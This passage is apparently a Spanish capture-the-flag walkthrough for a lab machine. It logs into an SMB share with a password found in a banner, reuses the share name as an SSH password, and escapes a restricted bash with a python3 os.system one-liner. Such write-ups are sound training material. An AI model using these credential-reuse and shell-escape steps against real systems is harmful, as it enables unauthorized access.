 Intentamos conectarnos con el usuario `smbuser` al `smb`, pero nos pedira una contraseña y si probamos a meter la palabra que encontramos en el banner, veremos que nos deja.

```shell
smbclient //<IP>/share_secret_only -U smbuser
```

Metemos la palabra `fuckit` como contraseña y veremos que funciona.

Si listamos veremos un archivo.

```
.                                   D        0  Mon Sep  2 08:05:05 2024
  ..                                  D        0  Mon Sep  2 08:05:05 2024
  note.txt                            N       13  Mon Sep  2 08:05:05 2024
```

Nos lo descargamos ya que no podemos hacer otra cosa.

```shell
get note.txt
```

Y contiene lo siguiente.

```
read better
```

Nos dice que leamos mejor, por lo que si leemos el recurso compartido el nombre que tiene.

```
share_secret_only
```

Probaremos a utilizarlo como contraseña para el usuario `rabol`.

## SSH

```shell
ssh rabol@<IP>
```

Si metemos como contraseña la palabra `share_secret_only` veremos que es la correcta.

### Exit rbash

Una vez dentro veremos que estaremos en una `restricted bash` y solo podremos ejecutar 2 comandos (`ls` y `python3`), pero podremos escapar de ella utilizando `python3` y haciendo lo siguiente.

```shell
python3 -c 'import os; os.system("/bin/bash")'
```

Y con esto ya habremos escapado, pero si intentamos hacer algun otro binario, veremos que no podemos, ya que el `PATH` esta limitado, por lo que nos importaremos el de nuestro host de la siguiente forma.

```shell
export PATH=$PATH:/root/.local/bin:/snap/bin:/usr/sandbox/:/usr/local/bin:/usr/bin:/bin:/usr/local/games:/usr/games:/usr/share/games:/usr/local/sbin:/usr/sbin:/sbin:/usr/local/bin:/usr/bin:/bin:/usr/local/games:/usr/games
```
